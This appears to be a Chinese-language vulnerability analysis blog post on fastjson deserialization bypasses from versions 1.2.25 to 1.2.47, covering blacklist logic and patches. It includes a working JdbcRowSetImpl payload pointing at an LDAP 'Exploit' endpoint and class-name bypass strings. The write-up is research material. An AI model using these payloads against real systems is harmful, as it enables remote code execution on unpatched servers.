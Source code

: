 ```yaml
---
title: 复现及分析fastjson后续漏洞
date: 2020-12-16 16:02:30
tags: 复现 漏洞分析
---
```





# FastJson1.2.25 修复了1.2.24的漏洞但是有绕过需要 autoTypeSupport设置为true


## 环境 在1.2.24的环境下修改pom.xml 版本为1.2.25  

我们再次使用 ldap的payload试试  


![报错没有执行成功](img/2020-12-14-15-07-35.png)  


报错 autoType不支持 `com.sun.rowset.JdbcRowSetImpl`  


我们debug到 checkAutoType方法  
checkAutoType机制是从1.2.25开始的  
autoTypeSupport 默认为false 是黑名单

`com.alibaba.fastjson.parser.ParserConfig#checkAutoType`  

默认autoTypeSupport为false   
![默认autoTypeSupport为false.jpg](img/默认autoTypeSupport为false.jpg)  

默认黑名单机制匹配 黑名单 `this.denyList`  
![默认黑名单机制匹配.jpg](img/默认黑名单机制匹配.jpg)  



黑名单命中 `com.sun.`  

![黑名单命中.jpg](img/黑名单命中.jpg)  

所以有上面的报错没执行成功  


1.2.25 黑名单如下  

![](img/2020-12-14-15-40-29.png)


那我们设置下 autoTypeSupport为true  

```java
    public JSONObject testVuln(@RequestBody String data) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        JSONObject obj = JSON.parseObject(data);
        JSONObject result = new JSONObject();
```
可以看到走到白名单匹配上则loadClass 但白名单为空  

true后白名单为空  
![true后白名单为空.jpg](img/true后白名单为空.jpg)

并且还是会走到黑名单  

![true还是会走到黑名单判断.jpg](img/true还是会走到黑名单判断.jpg)


再这个限制下可以根据黑名单绕过 与此同时在 `TypeUtils.loadClass` 发现了可以通过前面加L 后面加;来绕过  

![LoadClass](img/2020-12-14-15-19-28.png)  
类名开头是L 结尾是分号 就去掉L和分号后load  
可以看到只要 开头是L 结尾是; 就可以绕过
但是需要开启 autoTypeSupport 才可以  
不然还是会报错不支持  
![L与分号实现绕过.jpg](img/L与分号实现绕过.jpg)   

首先L和;会绕过黑名单  



然后从`1.2.42`后修复了这个可能存在问题的问题(需要开启autoType)  

## 怎么修复的 (L开头 ;结尾 需要autoType的)  
加入开头和结尾是L和; 那么就将头和尾去掉 再进行黑名单验证  
![](img/2020-12-14-16-57-31.png)  


并且将黑名单验证变成了hash的方式 防止安全人员进行研究  

![denyhashcodes](img/2020-12-14-16-30-44.png)  



## 绕过上面的 对于这个去掉L和；的绕过 就是再加一层就可以了  
只是在原来的基础上加了一个去掉L和;  
`LLcom.sun.rowset.JdbcRowSetImpl;;`  

![1.2.42双L绕过.jpg](img/1.2.42双L绕过.jpg)  



## 对于上面这个的补丁  
如果开头有两个LL就会抛出异常  


## 网上别人写好的解出来的 黑名单
`https://github.com/LeadroyaL/fastjson-blacklist`  
我们后面的检测是利用了这个黑名单  

## Fastjson1.2.45 绕过黑名单 是使用黑名单没有的  

这里需要安装额外的库 mybatis  
mybatis也是比较常用的库了 orm框架    
```xml
<dependency>
    <groupId>org.mybatis</groupId>
    <artifactId>mybatis</artifactId>
    <version>3.5.5</version>
</dependency>
```

触发的话还是需要开启 autotype  
我的fastjson是 1.2.42 ~ 1.2.45版本  
进入checkAutoTye  
![checkAutoType](img/2020-12-16-10-46-37.png)  

## <1.2.47 无需开启autoType


### payload

```json
{    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://localhost:1389/Exploit",
        "autoCommit":true
    }
}
```

这个是利用了 fastjson解析的时候会先把反序列的化的缓存类对象到 mappings  

先发一个 请求  

```json
{
    "@type":"java.lang.Class",
    "val":"com.sun.rowset.JdbcRowSetImpl"
}
```

先进入checkAutoType 因为没有匹配黑名单可以过去  
![checkAutoType](img/2020-12-16-10-55-57.png)  

使用TypeUtils.loadClass 加载类  
![TypeUtils.loadClass](img/2020-12-16-11-02-18.png)  


从mappings缓存中获取发现没有于是添加进去  
![从mappings缓存中获取](img/2020-12-16-11-03-29.png)  
mappings 是在反序列化中处理一些基础类提供效率  


![添加到mappings缓存](img/2020-12-16-11-40-00.png)  

在 checkAutoType 方法中会有先通过下面方法从mappings中加载  
会先于黑名单过滤  
clazz = TypeUtils.getClassFromMapping(typeName);  

![从mappings中加载](img/2020-12-16-11-52-26.png)

可以看到可以成功加载  
![加载成功](img/2020-12-16-11-58-16.png)  


后面就是跟之前的一样了  
![lookup](img/2020-12-16-11-59-06.png)  

无需autoType因为通过缓存形式绕过了  

## 判断流程
先判断 `autoTypeSupport` 是否为false  
false默认的则进行黑名单判断  
为true则进行白名单 空的加黑名单判断  
当为false的时候第二步会从mappings中获取缓存 有的话直接loadClass   
` Class<?> clazz = TypeUtils.getClassFromMapping(typeName);`  
然后再进入黑名单判断

### 参考 

https://blog.csdn.net/weixin_36024829/article/details/112499108  
https://drops.blbana.cc/2020/04/01/Fastjson-TemplatesImpl-%E5%88%A9%E7%94%A8%E9%93%BE/  
https://p0rz9.github.io/2019/05/12/Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BTemplatesImpl%E8%B0%83%E7%94%A8%E9%93%BE/  


